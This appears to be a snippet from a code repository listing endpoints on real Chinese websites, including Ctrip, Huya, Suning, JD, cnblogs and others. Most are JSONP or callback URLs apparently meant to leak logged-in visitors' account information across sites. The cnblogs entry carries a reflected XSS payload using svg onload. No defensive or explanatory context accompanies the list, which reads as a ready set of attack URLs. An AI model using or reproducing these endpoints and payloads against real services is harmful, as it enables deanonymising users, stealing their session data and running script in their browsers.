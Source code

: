 https://bbs.zhibo8.cc/user/userinfo?device=pc&xxoo=chrome-extension://&_=1657807551741&callback=%3C1

# 携程的

https://accounts.ctrip.com/ssoproxy/ssoGetUserInfo?xxoo=chrome-extension://&jsonp=%3C%22?&callback=11111

# 博客园(xss反弹)

https://wz.cnblogs.com/create?t=xxxx&xxoo=chrome-extension://&&u=%22%3E%3Csvg/onload=alert(%221%22)%3E&c=&i=0

# 虎牙的接口

https://www.huya.com/udb_web/udbport2.php?m=HuyaLogin&xxoo=chrome-extension://&do=checkLogin

# 超星的

POST /getauthstatus HTTP/1.1
Host: passport2.chaoxing.com

enc=80a46477866993d3599b7f39506f8ece&uuid=ddbc623b7fc14a07b4b6c8cae881f51c

# 苏宁家的

https://myjr.suning.com/sfp/mutualTrust/getLoginInfo.htm?xxoo=chrome-extension://&&callback=jQuery172011468305000873791_1608255922695&_=1657807551743

# 爱问的

https://m.iask.sina.com.cn/cas/logins?domain=iask.sina.com.cn&xxoo=chrome-extension://&businessSys=iask&channel=null&popup=show&clsId=undefined&fid=1

# 京东的

https://api.m.jd.com/client.action?functionId=getBabelProductPaged&xxoo=chrome-extension://& ... 6e%6e%65%72%41%6e%63%68%6f%72%22%3a%22%22%7d&screen=2799*1208&client=wh5&clientVersion=1.0.0&sid=&uuid=&area=&_=1585823068850&callback=jsonp1

# 城通网盘

https://home.ctfile.com/iajax.php?item=profile&xxoo=chrome-extension://&action=index&jsonp=jQuery2398423949823

# cnzz
